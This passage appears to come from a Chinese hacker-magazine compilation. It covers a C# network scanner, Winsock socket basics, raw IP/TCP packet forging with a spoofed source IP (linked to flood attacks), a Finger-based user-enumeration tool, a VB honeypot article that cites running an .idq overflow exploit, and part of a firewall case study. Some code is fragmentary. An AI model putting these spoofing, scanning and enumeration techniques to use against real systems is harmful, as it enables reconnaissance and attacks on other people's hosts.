        IPAddress myScanIP = IPAddress.Parse(strScanIPAdd);
        try
        {
            // 你可以加入自己的增强功能
            // Dns.GetHostByAddress() 方法，根据 IP 地址获取 DNS 主机信息。
            IPHostEntry myScanHost = Dns.GetHostByAddress(myScanIP);
            // 获取主机的名称
            string strHostName = myScanHost.HostName.ToString();
            richTextBox1.AppendText(strScanIPAdd + " " + strHostName + "\r\n");
        }
        catch (Exception error)
        {
            MessageBox.Show(error.Message);
        }
    }
}
```

执行如图 2 所示。

（图 2 略）

#### 3．实现网段扫描，确定网络中正在使用的主机数目。

这里使用了多线程技术，增加了多个线程或是线程池（我这里只增加一个线程），以便防止程序扫描的时间过长，影响程序的响应。不过在 .NET 中，由于使用了垃圾收集技术，所以对线程的控制也不是很复杂。

```csharp
private void button3_Click(object sender, System.EventArgs e)
{
    // Thread 类，创建并控制线程。
    Thread thScan = new Thread(new ThreadStart(ScanTarget));
    // Thread.Start 方法，启动线程
    thScan.Start();
}

private void ScanTarget()
{
    // 构造 IP 地址的 31～8Bit 段，也就是固定的 IP 地址的前缀
    // numericUpDown1 是定义的 System.Windows.Forms.NumericUpDown 控件
}
```

扫描如图 3 所示。

到此为止，一个简单用 C# 实现扫描器的主要功能就完成了。试一下，你可以看到你的网络上的主机。有没有成就感？如果有疑问，请到 www.vchelp.net 论坛的 C# 或 .NET 版面和我讨论。

（图 3 略）

### Socket 编程的基础和基本过程解析

编者按：大家看到黑客们用自己编写的软件进行入侵一定羡慕得不得了吧？是不是自己也想学一学呢？学网络编程必定要接触到 Socket，下面这篇是 Socket 编程的入门级文章，希望对大家起到抛砖引玉的作用。

### 一、什么是 Socket

接触网络编程当然要了解 Socket，Socket 就是套接字，它的定义是一种软件抽象，用于表达两台机器之间的连接“终端”。对于一个给定的连接，每台机器上都有一个套接字，有点像我们打电话，用电缆把电话连接起来，中间的物理结构和具体实现过程我们不必了解，只要我们能进行通话即可。当我们进行编程时，需要用到 Socket 接口，Socket 接口定义了许多函数或例程，我们可以直接调用它们实现网络连接、通信等功能。Socket 接口为我们建立通信信道，我们可以通过这条通道来与一台或多台计算机进行连接。

套接字描述符是一个整数类型的值。每个进程的进程空间里都有一个套接字描述符表，该表中存放着套接字描述符和套接字数据结构的对应关系。该表中有一个字段存放新创建的套接字的描述符，另一个字段存放套接字数据结构的地址，因此，根据套接字描述符就可以找到其对应的套接字数据结构。每个进程在自己的进程空间里都有一个套接字描述符表，但是套接字数据结构都是在操作系统的内核缓冲里。

### 二、Socket 编程的基本过程

下面我们以 Windows Socket API 为例进行介绍。

#### 1. 建立 Socket；

既然是 Socket 编程，其最基本的步骤就是建立 Socket，下面来看看建立 Socket 的函数原型：

```c
SOCKET Socket(int af, int type, int protocol);
```

第一个参数指定应用程序使用的通信协议的协议族，对于 TCP/IP 协议族，该参数置 PF_INET；第二个参数指定要创建的套接字类型，一般分为流套接字和数据包套接字两种类型。流套接字类型为 SOCK_STREAM，数据包套接字类型为 SOCK_DGRAM，第三个参数指定应用程序所使用的通信协议。该函数如果调用成功就返回新创建的套接字的描述符，如果失败则返回 INVALID_SOCKET。

#### 2. Socket 的配置：

通过 Socket 函数调用返回一个 Socket 描述符后，在使用 Socket 进行网络传输以前，必须配置该 Socket。面向客户端的 Socket 通过调用 connect 函数在 Socket 数据结构中保存本地和远端信息。无连接客户端、服务端以及面向连接 Socket 的服务端，通过调用 bind 函数来配置本地信息。bind 函数将 Socket 与本机上的一个端口相关联，随后你就可以在该端口监听服务请求。下面看看 connect 函数和 bind 函数：

```c
int bind(SOCKET s, const struct sockaddr FAR* name, int namelen);
```

当创建了一个 Socket 以后，套接字数据结构中有一个默认的 IP 地址和默认的端口号。一个服务程序必须调用 bind 函数来给其绑定一个 IP 地址和一个特定的端口号。客户程序一般不必调用 bind 函数来为其 Socket 绑定 IP 地址和端口号。该函数的第一个参数指定待绑定的 Socket 描述符，第二个参数指定一个 sockaddr 结构，该结构是这样定义的：

```c
struct sockaddr {
    unsigned short sa_family;
    char sa_data[14];
};
```

sa_family 指定地址族；对于 TCP/IP 协议族的套接字，给其置 AF_INET。当对 TCP/IP 协议族的套接字进行绑定时，我们通常使用另一个地址结构：

```c
struct sockaddr_in {
    short sin_family;
    unsigned short sin_port;
    struct in_addr sin_addr;
    char sin_zero[8];
};
```

其中 sin_family 置 AF_INET；sin_port 指明端口号；sin_addr 结构体中只有一个唯一的字段 s_addr，表示 IP 地址，该字段是一个整数，一般用函数 inet_addr 把字符串形式的 IP 地址转换成 unsigned long 型的整数值后再置给 s_addr。有的服务器是多宿主机，至少有两个网卡，那么，运行在这样的服务器上的服务程序在为其 Socket 绑定 IP 地址时，可以把 htonl(INADDR_ANY) 置给 s_addr，这样做的好处是，不论哪个网段上的客户程序都能与该服务程序通信；如果只给运行在多宿主机上的服务程序的 Socket 绑定一个固定的 IP 地址，那么，就只有与该 IP 地址处于同一个网段上的客户程序才能与该服务程序通信。我们用 0 来填充 sin_zero 数组，目的是让 sockaddr_in 结构的大小与 sockaddr 结构的大小一致。

### 三、实现功能

- **1. 服务器端**：需要对绑定的端口进行监听，函数原型如下：

```c
int listen(SOCKET s, int backlog);
```

服务程序可以调用 listen 函数使其流套接字 s 处于监听状态。Backlog 为客户连接请求队列的最大数量。处于监听状态的流套接字 s 将维护一个客户连接请求队列。执行成功，则返回 0；如果执行失败，则返回 SOCKET_ERROR。

```c
SOCKET accept(SOCKET s, struct sockaddr FAR *addr, int FAR *addrlen);
```

服务程序调用 accept 函数从处于监听状态的流套接字 s 的客户连接请求队列中取出排在最前的一个客户请求，并且创建一个新的套接字来与客户套接字创建连接通道，如果连接成功，就返回新创建的套接字的描述符，以后与客户套接字交换数据的是新创建的套接字；如果失败，就返回 INVALID_SOCKET。

- **2. 客户端**：

```c
int connect(SOCKET s, const struct sockaddr FAR* name, int namelen);
```

connect 函数是为了与远程主机建立直接连接而使用的。s 是即将在其上建立连接的那个有效的 TCP 套接字；name 是针对 TCP（说明连接的服务器）的套接字的结构；namelen 则是名字参数的长度。

```c
int send(SOCKET s, const char FAR *buf, int len, int flags);
```

该函数的第一个参数指定发送端套接字描述符；第二个参数指明一个存放应用程序要发送数据的缓冲区；第三个参数指明实际要发送的数据的字节数；第四个参数一般置 0。这里只描述同步 Socket 的 send 函数的执行流程。当调用该函数时，send 先比较待发送数据的长度 len 和套接字 s 的发送缓冲区的长度，如果 len 大于 s 的发送缓冲区长度，该函数返回 SOCKET_ERROR；如果 len 小于或者等于 s 的发送缓冲区的长度，那么，send 先检查协议是否正在发送 s 的发送缓冲中的数据，如果是，就等待协议把数据发送完；如果协议还没有开始发送 s 的发送缓冲中的数据或者 s 的发送缓冲中没有数据，那么，send 就比较 s 的发送缓冲区的剩余空间和 len，如果 len 大于剩余空间大小，send 就一直等待协议把 s 的发送缓冲中的数据发送完；如果 len 小于剩余空间大小，send 就仅仅把 buf 中的数据复制到剩余空间里。如果 send 函数复制数据成功，就返回实际复制的字节数；如果 send 在复制数据时出现错误，那么，send 就返回 SOCKET_ERROR；如果 send 在等待协议传送数据时网络断开的话，那么，send 函数也返回 SOCKET_ERROR。要注意：send 数据把 buf 中的数据成功复制到 s 的发送缓冲的剩余空间里后它就返回了，但这些数据并不一定马上被传到连接的另一端。如果协议在后续的传送过程中出现网络错误的话，那么，下一个 Socket 函数就会返回 `SOCKET_ERROR`（每一个除 `send` 外的 Socket 函数在执行的最开始总要先等待套接字的发送缓冲中的数据被协议传送完毕才能继续，如果在等待时出现网络错误，那么，该 Socket 函数就返回 `SOCKET_ERROR`）。

**注意：** `send` 函数客户端和服务器端应用程序都可以用 `send` 函数来向 TCP 连接的另一端发送数据。一般客户端发送请求，服务器端发送应答。

下面还有一个服务器端和客户端都需要的函数 `recv()`：

```c
int recv(SOCKET s, char FAR *buf, int len, int flags);
```

该函数的第一个参数指定接收端套接字描述符；第二个参数指明一个缓冲区，该缓冲区用来存放 `recv` 函数接收到的数据；第三个参数指明 `buf` 的长度；第四个参数一般置 0。函数调用成功返回实际接收的字节数，如果接收出错则返回 `SOCKET_ERROR`，接收数据时网络中断返回 0。

### 4. 关闭Socket

当完成服务或者某任务时，记得请把 Socket 关闭：`int closesocket(SOCKET s);`

## 三、小结及例子分析

### 1. 服务器端的工作流程

首先调用 `socket` 函数建立 Socket，然后调用 `bind` 函数将 Socket 与本机 IP 地址和端口进行绑定，接着调用 `listen` 对 Socket 进行监听；当调用 `accept` 函数接收到一个连接服务请求时，便生成一个新的 Socket。服务器显示该客户机的 IP 地址，并通过新的 Socket 向客户端发送字符串 "Hello!"。最后关闭该 Socket。服务器端重要部分程序如下：

```c
main()
{
    int sockfd, client_fd;  /* sockfd: 监听Socket, client_fd: 数据传输Socket */
    struct sockaddr_in my_addr;    /* 本机地址信息 */
    struct sockaddr_in remote_addr; /* 客户端地址信息 */
    int sin_size;

    if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1) { /* 创建Socket */
        printf("Socket创建出错！");
        exit(1);
    }

    my_addr.sin_family = AF_INET; /* 协议族 */
    my_addr.sin_port = htons(SERVPORT); /* 端口设定 */
    my_addr.sin_addr.s_addr = INADDR_ANY; /* 设置的IP地址信息 */
    memset(&(my_addr.sin_zero), 0, sizeof(my_addr.sin_zero));

    if (bind(sockfd, (struct sockaddr *)&my_addr, sizeof(struct sockaddr)) == -1) { /* 绑定此Socket */
        printf("bind出错！");
        exit(1);
    }

    if (listen(sockfd, BACKLOG) == -1) { /* 对Socket进行监听 */
        printf("listen出错！");
        exit(1);
    }

    while(1) {
        sin_size = sizeof(struct sockaddr_in);
        if ((client_fd = accept(sockfd, (struct sockaddr *)&remote_addr, &sin_size)) == -1) {
            printf("accept出错！");
            continue;
        }

        printf("received a connection from %s\n", inet_ntoa(remote_addr.sin_addr));
        if (send(client_fd, "Hello!", 6, 0) == -1)
            printf("send出错！");
        close(client_fd);
        exit(0);
    }
}
```

### 2. 客户端程序流程

在建立 Socket 以后，用 `connect` 函数与服务器端连接，连接成功以后，用 `recv` 函数接收服务器端发来的消息。客户端程序重要部分代码如下：

```c
#define SERVPORT 3333
#define MAXDATASIZE 100 /* 每次最大数据传输量 */

main(int argc, char *argv[])
{
    int sockfd, recvbytes;
    char buf[MAXDATASIZE];
    struct hostent *host;
    struct sockaddr_in serv_addr;

    if (argc < 2) {
        printf("Please enter the Server's hostname!\n");
        exit(1);
    }

    if ((host=gethostbyname(argv[1]))==NULL) {
        printf("gethostbyname出错! ");
        exit(1);
    }

    if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        printf("Socket创建出错! ");
        exit(1);
    }

    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(SERVPORT);
    serv_addr.sin_addr = *((struct in_addr *)host->h_addr);
    memset(&(serv_addr.sin_zero), 0, sizeof(serv_addr.sin_zero));

    if (connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(struct sockaddr)) == -1) {
        printf("connect出错! ");
        exit(1);
    }

    if ((recvbytes=recv(sockfd, buf, MAXDATASIZE, 0)) == -1) { /* 从服务器端接收信息 */
        printf("recv 出错! ");
        exit(1);
    }

    buf[recvbytes] = '\0';
    printf("%s", buf);
    close(sockfd);
}
```

以上的代码从网上摘录，仅供参考。

### 伪造自己的数据包

#### 发送数据解析

继 SOCKET 编程的基本知识之后，本期推出应用篇。结合上期的知识，本文可以帮助大家扩展知识面，学到一个非常实用的技术——发送自己的数据包。

文／多多

我们在进行网络编程的时候，经常需要构造自己的数据包，实现一些特别的功能，比如伪造 IP、发送自己特定的信息等等，著名的 FLOOD 攻击就用到了这个技术，应用范围十分广泛。下面介绍的技术需要 Winsock2.2 函数库的支持，在 Windows 2000 中已经支持了。

下面我和大家一起从较简单的方面来讨论、学习这个技术，我们以常用的 TCP/IP 协议的数据包为例：

首先，我们先谈谈数据包的第一部分——IP头。请看下面结构描述：

```c
typedef struct ip_hdr
{
    unsigned char ip_verlen;   // IP头的版本号，目前是IPV4，最新是IPV6
    unsigned char ip_tos;      // 服务类型，定义了数据传输的优先级、延迟、吞吐量和可靠性等特性
    unsigned short ip_totallength; // IP头的长度，若没有特殊选择，IP头总是20字节长
    unsigned short ip_id;      // IP包标识，主机使用它唯一确定每个发送的数据报
    unsigned short ip_offset;  // IP数据分割偏移
    unsigned char ip_ttl;      // 数据报在网络上的存活时间，每通过一个路由器，该数值减一
    unsigned char ip_protocol; // TCP/IP协议类型，比如：ICMP为1，IGMP为2，TCP为6，UDP为17等
    unsigned short ip_checksum; // 头部检验和
    unsigned int ip_srcaddr;   // 源IP地址
    unsigned int ip_destaddr;  // 目的IP地址
} ip_header;
```

在 IP 末尾还有一些选项和数据，这里没有写入结构中。这个结构不难看懂吧？大家接着往下看吧。

接下来我们再看看用 C 描述的 TCP 报文格式：

```c
typedef struct _tcphdr
{
    USHORT th_sport;   // 16位源端口
    USHORT th_dport;   // 16位目的端口
    unsigned int th_seq;   // 32位序列号
    unsigned int th_ack;   // 32位确认号
    unsigned char th_lenres; // 4位首部长 + 6位保留字中的4位
    unsigned char th_flag;   // 2位保留字 + 6位标志位，2是SYN，1是FIN，16是ACK等等
    USHORT th_win;     // 16位窗口大小
    USHORT th_sum;     // 16位校验和
    USHORT th_urp;     // 16位紧急数据偏移量
} tcp_header;
```

好了，看完这两个结构，我们来看如何填充这些结构中的数据吧，给出例子：

```c
ip_header.ip_verlen = (IPVersion << 4) | 5; // 填充版本号和首部长度
ip_header.ip_tos = 0;
ip_header.ip_totallength = htons(sizeof(ip_header) + sizeof(tcp_header) + sizeof(data));
// 为了在后面保护自己的数据包必须修改此IP头长度
ip_header.ip_id = 0;
ip_header.ip_offset = 0;
ip_header.ip_ttl = 128;
ip_header.ip_protocol = 6;   // TCP协议
ip_header.ip_checksum = 0;   // 校验和应先置0，后面再填充
ip_header.ip_srcaddr = inet_addr(SRC_IP); // 源IP
ip_header.ip_destaddr = inet_addr(DES_IP); // 目的IP

tcp_header.th_dport = htons(DES_PORT); // 目的端口号
tcp_header.th_sport = htons(SRC_PORT); // 源端口号
tcp_header.th_seq = htonl(0x12345678);
tcp_header.th_ack = 0;
tcp_header.th_lenres = (sizeof(tcp_header) / 4 << 4 | 0);
tcp_header.th_flag = 2;  // 修改这里来实现不同的标志位探测，2是SYN，1是FIN，16是ACK探测等等
tcp_header.th_win = htons(512);
tcp_header.th_urp = 0;
tcp_header.th_sum = 0;   // 校验和应先置0，后面再填充
```

现在，来谈谈这两个结构的校验和问题，这可是算法上的问题，有点难，大家可以直接拿来用。

IP 校验和的计算方法是：首先将 IP 首部的校验和字段设为 0（IP_HEADER.checksum=0），然后计算整个 IP 首部（包括选项）的二进制反码的和，一个标准的校验和函数如下：

```c
USHORT checksum(USHORT *buffer, int size)
{
    unsigned long cksum = 0;
    while (size > 1)
    {
        cksum += *buffer++; // 把所有的数据相加
        size -= sizeof(USHORT);
    }
    if (size > 0)
    {
        cksum += *(UCHAR*)buffer;
    }
    cksum = (cksum >> 16) + (cksum & 0x0ffff); // >>16 为右移16位（二进制），再把cksum低16位取出相加
    cksum += (cksum >> 16);
    return (USHORT)(~cksum); // 取反
}
```

TCP 首部检验和与 IP 首部校验和的计算方法相同，在程序中使用同一个函数来计算。

需要注意的是：由于 TCP 首部中不包含源地址与目标地址等信息，为了保证 TCP 校验的有效性，在进行 TCP 校验和的计算时，需要增加一个 TCP 伪首部的校验和。这只是为了校验和用的，实际并不存在，定义如下：

```c
struct
{
    unsigned long saddr; // 源地址
    unsigned long daddr; // 目的地址
    char mbz;           // 置空
    char ptcl;          // 协议类型
    unsigned short tcpl; // TCP长度
} psd_header;
```

然后，我们把这两个字段复制到同一个缓冲区 buf 中并计算 TCP 校验和：

```c
memcpy(buf, &psd_header, sizeof(psd_header)); // 将伪TCP头拷贝到buf存储中
memcpy(buf+sizeof(psd_header), &tcp_header, sizeof(tcp_header)); // 将真正TCP头拷贝至伪TCP头末尾
tcp_header.th_sum = checksum((USHORT*)buf, sizeof(psd_header)+sizeof(tcp_header));
// 计算校验和
```

计算 IP 校验和的时候不需要包括 TCP 伪首部：

```c
memcpy(buf, &ip_header, sizeof(ip_header)); // 将IP头拷贝到缓存
memcpy(buf+sizeof(ip_header), &tcp_header, sizeof(tcp_header));
// 将TCP头拷贝至IP头末尾
ip_header.checksum = checksum((USHORT*)buf, sizeof(ip_header)+sizeof(tcp_header)+sizeof(data)); // 计算校验和
```

最后将计算过校验和的 IP 首部与 TCP 首部复制到同一个缓冲区中，如果还有数据应该将数据一起拷贝到缓冲区中，然后就可以直接发送了：

```c
sendto(SockRaw, buf, datasize, 0, (struct sockaddr*)&DestAddr, sizeof(DestAddr));
```

好了，基本过程我们已经了解，接下来整理一下思路：

- 1. 首先，创建一个套接字 `sock = socket(AF_INET, SOCK_RAW, IPPROTO_IP)`，用了 `SOCK_RAW` 这个参数，表示建立一个原始的套接字。
- 2. 对套接字设置选项值，使得能发送自己的数据包，使用函数 `setsockopt(sock, IPPROTO_IP, IP_HDRINCL, (char *)&binFlag, sizeof(binFlag));` 设定 `IP_HDRINCL` 选项，那么，就需要自己来构造 IP 头。
- 3. 填充自己的 IP 头和 TCP 头。在填充 IP 头的时候，`ip_header.ip_totallength` 的值应该设置为 IP 头长 + TCP 头长 + 数据长，例如：`ip_header.ip_totallength = htons(sizeof(ip_header)+sizeof(tcp_header)+sizeof(data))`。`htons()` 表示将主机的无符号短整型数转换成网络字节顺序。
- 4. 进行校验和计算。
- 5. 将数据包的头部分和数据拷贝到一个缓冲区。
- 6. 最后是进行发送：`sendto(SockRaw, buf, datasize, 0, (struct sockaddr*)&DestAddr, sizeof(DestAddr))`。

下面列出函数的具体使用：

```c
int PASCAL FAR sendto( SOCKET s, const char FAR* buf, int len, int flags, const struct sockaddr FAR* to, int tolen);
```

- `s`：一个标识套接字的描述字。
- `buf`：包含待发送数据的缓冲区。
- `len`：`buf` 缓冲区中数据的长度。
- `flags`：调用方式标志位。
- `to`：（可选）指针，指向目的套接口的地址。
- `tolen`：`to` 所指地址的长度。

关于自定义数据包的发送本来就有一定的难度，为了让读者便于理解，本文没有更深入的探讨，也没有给出详细的例程，只停留在表面的讲解，点到即止，还望读者自行深入。

但网络上仍然有许多的机器开着 Finger，给人以可乘之机，故这里还是加入这个功能。

要完成用户账号的查询，我们可以使用 NMFinger 控件，它封装了 Finger 协议。Finger 协议是一个相对比较简单的协议，它可以让用户从主机上检索某一用户的信息。

下面来看看 Finger 协议的简介：Finger 协议是一个老旧的并且广泛应用于 UNIX 系统上的检查用户登录文件（/etc/passwd）的工具。它可以使用户找到某人的登录名称（电子邮件地址）、他的专用名称，给出你知道的、对应你应用的计算机。Finger 协议也告诉用户是否当前被注册在目标机上。虽然 Finger 和 UNIX 的联系比较密切，但客户也允许从其他系统类型中运行 Finger 协议的查询。

好，接着来。双击 NMFinger 控件，将其加到窗体中去；再双击“探测”按钮（Button1），键入以下代码：

```cpp
// ———查询主机上的特定用户———
NMFinger1->ReportLevel = Status_Basic;
NMFinger1->TimeOut = 50000; // 设置超时值
if(Edit2->Text == "")
    NMFinger1->Host = Edit1->Text;   // 主机 IP 地址等待输入
else
    NMFinger1->Host = Edit2->Text;   // 主机域名等待输入
NMFinger1->Port = 79;   // 设置默认端口为 79
NMFinger1->User = Edit3->Text;
// 如果要查询某一个已知的、特定的用户，如 root，
// 可以在 Edit3 中输入
Memo1->Text = NMFinger1->FingerStr;
// 调用 FingerStr 属性，就可以完成与服务器的连接、查询用户账号等工作。
// 并将 FingerStr 赋给 Memo1 中的 Text 属性，用于在右边的那个空白框里显示用户信息。
```

还要加入 NMFinger 控件的一些处理函数，完善一下程序，代码如下：

```cpp
void __fastcall TForm1::NMFinger1Connect(TObject *Sender)
{
    StatusBar1->Panels->Items[0]->Text = "正在获取用户信息...";
}

void __fastcall TForm1::NMFinger1InvalidHost(bool &Handled)
{
    AnsiString NewHost;
    if(InputQuery("主机不正确", "请选择另外一个主机", NewHost))
    {
        // 当没有填入主机 IP 地址或者域名就点了“探测”按钮时，弹出提示框，要求用户重新输入主机 IP 或域名；
        // 执行下面两句将重新设置 NMFinger1 控件的 Host 属性，并把 Handled 属性值设置为 true，企图与远程主机重新建立连接。
        NMFinger1->Host = NewHost;
        Edit2->Text = NewHost;
        Handled = true;
    }
}

void __fastcall TForm1::NMFinger1Status(TComponent *Sender, AnsiString Status)
{
    if(StatusBar1 != 0)
        StatusBar1->Panels->Items[0]->Text = Status;
}

void __fastcall TForm1::NMFinger1Disconnect(TObject *Sender)
{
    if(StatusBar1 != 0)
        StatusBar1->Panels->Items[0]->Text = "用户探测已经结束";
}

void __fastcall TForm1::NMFinger1ConnectionFailed(TObject *Sender)
{
    ShowMessage("查询用户失败!"); // 当连接失败时（触发 ConnectionFailed 事件时）弹出对话框提示。
}
```

至此，整个程序的编写已经结束了，大家可以编译、运行看看结果了。文中的截图是笔者在写本文的时候随手做的例子的样子，功能不全，BUG 挺多的。

最后，我还想说一点，对于远程主机的探测远远不止这些，这个程序只是一个例子，目的是想说一说如何通过编程来实现对目标主机进行简单探测而已，并不是教大家如何去编扫描器。由于时间仓促，只是糊弄了一下，你可以加入更好的代码，让程序完成更加强大的功能。

### 打造自己的反馈操作陷阱


每天，全球的应急响应人员都会面对被入侵的系统，这些系统运行了些未知程序，对已经控制了机器的入侵者提供了非常理想所愿的服务。大多情况下，应急响应就是一个尽快把机器弄上线，让它继续工作的过程。这样通常会导致一个不充分和不太有效的应急响应，甚至不知道是谁攻击了你，因此很有可能被再次入侵。

从法律诉讼的角度来说，它们受限于一系列的入侵事件和有价值数据的短缺。一个受害者力图保持系统的运行状态或者对系统进行一个“快速”的清理通常导致事件被报告上来，或者对证据的不正确处理导致证据丢失或证据污染。如果要控制 Internet 犯罪，就像和法律约束一样，需要有更好的方法来满足事件处理和系统管理的需要。一个可能的答案是对于工具技术的广泛知识公开的分析技巧，保护数据，分析它，产生出有意义的报告，对于你组织的破坏评估，给其他事件响应小组和系统管理员和法律部门。于是就出现了 Honeynet 技术。

简单点说，Honeynet 就是我们能够知道谁在对我们的计算机进行扫描等一系列活动，甚至我们可以虚拟出一个具有保护模式下的系统而专门让那些所谓的“黑客”们进入，然后观察他们的活动，进一步了解他们常用的攻击方法。

相信不少朋友都有被攻击过的经历。从常理来说，攻击者一般是分析目的机器的服务，当然，首选是 HTTP，FTP，SMTP 等。我想知道是否有人对我的“安全”机器有兴趣，于是，伪造一个 Web 服务器，等待对方来连接，然后通过对方对我的计算机做监听的服务端口进行操作，程序就自动记录下来这个攻击者的行为。这个陷阱我们称之为“蜜罐”。

在我们的陷阱中，配置好 IP 和监听端口，比如对常见的 CGI/IIS 漏洞探测软件所设置 80 端口，当然也可以是其他端口。如图 1 所示。


在旁边的计算机上我们构造了一个“黑客”计算机进行测试用。在“黑客”计算机上，我们打开扫描器 X-Scan，一般攻击者都先扫描端口，看看有没有 HTTP 服务开着，然后进一步分析系统。这里我们只选择端口扫描和 CGI/IIS 漏洞扫描。如图 2 所示。


好了，按照我的方式来配置，就 OK 了。然后我们就开始扫描，最后看这个蜜罐的日志信息。如图 3 所示。当扫描器扫描到 80 端口的时候，蜜罐出现了日志，然后 X-Scan 开始扫描 CGI/IIS 漏洞的时候，日志文件飞快地记录，很详细地记录了攻击者的 IP 和连接端口等，如果可以加上日期和日志分析功能，就更完美了。美中不足的是不能多线程同时监听多个端口。


图 3

从上面可以看出来这个蜜罐程序的功能，但它没有包过滤和制定安全策略，所以说它并不是防火墙，也不是 IDS。

接着黑客计算机发现了“.idq 溢出漏洞”，我们用常见的 .idq Exploit 来对这台计算机进行溢出攻击，让我们看看结果如何。到 http://snake.gnuchina.org/PortBound/index.htm 上把这个程序下载回来，进行远程溢出攻击。如图 4 所示。


图 4

在蜜罐的日志中，我们发现了 by_snake....这些字样。

也许有的新手朋友会问这如何实现呢？如果用 VB 来写的话，就很简单了，其实就是用一个 Winsock 控件对一个指定的端口进行监听。

**原理实现：**
首先加上一个 Winsock1 控件，Name = Winsock1（默认）。

```vb
Private Sub Form_Load()
Dim msg As String  '定义 msg 为字符型变量，用来接收信息
Winsock1.Close      '为了防止 winsock1 重新连接同一个端口发生错误。
Winsock1.LocalPort = 80  '自定义端口
Winsock1.Listen     '监听端口
End Sub

Private Sub Winsock1_ConnectionRequest(ByVal requestID As Long)
    Winsock1.Accept requestID  '接受具有合法请求的连接
End Sub

Private Sub Winsock1_DataArrival(ByVal bytesTotal As Long)
    Winsock1.GetData msg  '这时把对 80 端口进行监听的结果传到 msg 中
End Sub
```

然后用一个 Text 空间来存放这些信息，比如 `Text1.Text = msg`。

然后就可以看到产生的信息日志了。我们也可以利用数组来实现多线程 `winsock(i)`，可以同时监听多个端口服务；也可以用 `winsock(i).RemoteHostIP` 来显示远程主机的 IP 等。原理很简单，但怎么做，看读者自己的思路了，也许会使它的功能更强大。

下面是我自己写的这个程序的演示，如图 5 所示：


图 5

源代码在附赠光盘中。


## 黑客国税：构筑安全网络成功方案

#### 项目背景

伴随着信息技术的高速发展，税务征收管理业形成了完全依托于计算机网络的一体化综合业务处理系统，解决了日常工作中信息的储存问题和大量复杂的计算，使银行表格和算盘工作的时代一去不返，极大地提高了税务征收的工作效率。与此同时，围绕计算机信息安全的诸多问题也开始逐步暴露并日益突出。由于金融电子化的发展真正使得货币由“实体”变成了“概念”，给作案分子造成可乘之机，近年来网络协议分析软件的大量使用和黑客攻击软件的泛滥，使得犯罪分子可以方便地分析网络通信数据并截获、甚至篡改用户密码及交易数据。犯罪分子利用计算机等高技术作案的趋势不断增长，已经给银行计算机网络安全构成了极大的威胁，金融计算机信息系统面临网络时代的安全挑战。

自 2000 年以来，国税系统的网络建设取得了突飞猛进的发展，全国范围的国税系统广域网络覆盖面越来越大，某省国税也先后建立了以 CTAIS 及金税工程为核心的综合税务业务系统，计算机网络在税收管理工作中的作用已越来越不可或缺。同时，网络安全也成为人们越来越关心的话题。

中网公司是我国最早从事网络安全、网络应用产品研发的高科技企业之一。成功开发出具有自主版权的安全产品：防火墙系统等，并获得公安部、国家安全部、国家保密局、解放军等国家信息安全保密主管部门的许可或认证。目前，安全产品已成功应用于政府、金融、电信、教育、能源等行业。

该项目采用的产品是中网“黑客愁™”防火墙，它是支持高效、高速的状态检测包过滤和高安全性应用代理等结构的新一代中网 IP 防火墙，其内置的 VPN 模块，可以提供数据传输安全的保障。

#### 网络安全分析

某省国税计算机网络按区域可划分为两部分，一部分是内部网络，另一部分是外联网路，按应用主要可以划分为两部分，一部分是网络应用安全，另一部分为网络传输安全。

内部网络指国税计算机信息网中不涉及与非国税部门直接进行信息交流的部分，它是国税计算机信息网的基本部分，在总体结构上完全依照国税机构的设置情况而建立，基本框架如下：省局、地市局、县（区、县级市）局、分局分别建立计算机局域网络。省局局域网与每个地市局局域网之间分别通过一条租用电路（一般是 DDN 或帧中继）直接连接；每个地市局局域网与其属下的每个县（区、县级市）局局域网、每个市属分局局域网分别通过一条租用电路直接连接；每个县（区、县级市）局局域网与其属下的每个分局的局域网分别通过一条租用电路直接连接；没有直接管属关系的两个单位的局域网之间没有直接电路连接。通过对各个局域网络路由器静态路由表的合理配置，省内内部网络任意两个局域网之间都是可实时传递信息的。整个省国税广域网络的拓扑结构构成一个以省局为根、市局为层数等于 1 的中间结点、县局为层数等于 2 的中间结点、分局为树叶的树状网，组成完整的三层网络结构。

外联网指国税计算机信息网络中与国税以外的计算机网络进行信息交流的部分，现有的外联网路主要有：

- 1. 各地国税部门提供给纳税人进行计算机网络缴税的“纳税人—国税局—银行”网络。该网络与银行之间通过专线连接，与纳税人之间则可以通过电话拨号直接连接、Internet、虚拟专用网 VPN 连接。
- 2. 计划在下一阶段将发展各地国税部门分别建立网站，作为对外服务（例如网上申报服务）、宣传国税形象和税收法律的窗口。

#### 安全威胁

人们通常所说的网络安全，一般是指网络系统的硬件、软件及其系统中的数据受到保护，不会因为偶然的或者恶意的攻击而遭到破坏、更改、泄漏，系统能够连续、可靠、正常地运行，网络服务不中断。因此，网络安全包括数据安全和系统安全两方面。

其中恶意对网络进行攻击的行为，又分两种类型：第一类为系统型攻击，它所威胁的是系统安全，其特点是：在网络层进行；破坏系统的可用性，使系统不能正常工作；留下明显的攻击痕迹。第二类为数据型攻击，它所威胁的是数据安全，其特点是：在网络的应用层进行；面向信息，主要目的是获得或修改数据；不会留下明显的痕迹。

#### 1. 威胁内部网络的人群

- **（1）攻击者与攻击对象在同一局域网**：组成国税内部网络的每一个局域网首先面临的威胁是来自同一局域网络的攻击，攻击者就是局域网的某些用户，他们的攻击类型主要是数据型攻击。由于他们处在局域网络内部，又是合法使用者，有着一定的网络使用权限，所以对网络的攻击非常容易实现。但他们的这种攻击因担心被发现而不能肆无忌惮地进行。
- **（2）攻击者与攻击对象在不同的局域网**：另一威胁是来自内部网络其它局域网络的攻击，攻击者是其它局域网的某些用户，他们的攻击类型主要也是数据型攻击。他们的这种攻击虽然比不上局域网络内部人员容易，但也不是不难实现的。同样，由于他们是系统内部人员，他们一样不敢肆无忌惮地为所欲为。
- **（3）攻击者来自内部网络之外**：由于不同局域网络之间的通信电路基本都是租用电信部门的公众通信网络，因此，内部网络还面临着外部攻击者从电信公众通信网络入手进行攻击的威胁。来自外部的攻击既可能是数据型攻击，也可能是系统型攻击。虽然主通信电路一般是 DDN 或帧中继，相对来说是安全的，但并不能排除从这些电路上非法连接国税网络进行攻击的可能。另外，那些少数通过电话拨号线进行通信的局域网，如果不采取一定的安全措施，这些电话线将成为外部攻击者非法进入的很好途径。

#### 2. 威胁外联网络的人群

